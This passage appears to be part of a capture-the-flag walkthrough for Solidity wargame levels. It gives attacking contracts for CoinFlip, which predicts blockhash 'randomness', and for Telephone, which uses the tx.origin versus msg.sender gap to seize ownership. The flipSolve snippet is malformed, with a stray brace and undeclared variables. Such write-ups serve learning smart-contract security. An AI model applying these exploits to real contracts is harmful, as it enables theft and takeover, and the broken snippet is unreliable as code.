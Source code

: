 ```solidity
CoinFlip public targetContract;
```

Next, we will create the constructor to receive our target address (for the deployed instance). This completes our first objective.

```solidity
constructor(address _targetAddr) public {
  targetContract = CoinFlip(_targetAddr);
  }
```

Let's replicate the remaining essential aspects of the `flip()` function. This completes our second objective.

```solidity
  function flipSolve() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    }
    if (lastHash == blockValue) {
      revert();
      }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
```

Finally, we will pass the side value into the original contract, ensuring our guess is always correct. This completes our final objective.

```solidity
targetContract.flip(side);
```

We patiently call `flipSolve()` 10 times until we have guessed correctly 10 times and solve the level.

## <a name='Telephone'></a> 4. Telephone

> Claim ownership of the contract.

The contract allows for a straightforward exploit given the difference between `msg.sender` and `tx.origin`. By creating a contract that serves an as intermediary to call `changeOwner()`, we can claim ownership of the target contract.

```solidity
// Import the target contract
import './Telephone.sol';

//Create attacking contract
contract HotlineBling {

  // Setup target contract
  Telephone public EthernautHotline;

  constructor(address _targetCellPhone) public {

    // Setup deployed instance as the attack target
    EthernautHotline = Telephone(_targetCellPhone);
  }
    // Execute the attack
    function callTheVictim() public {
        EthernautHotline.changeOwner(msg.sender);
    }

}
```
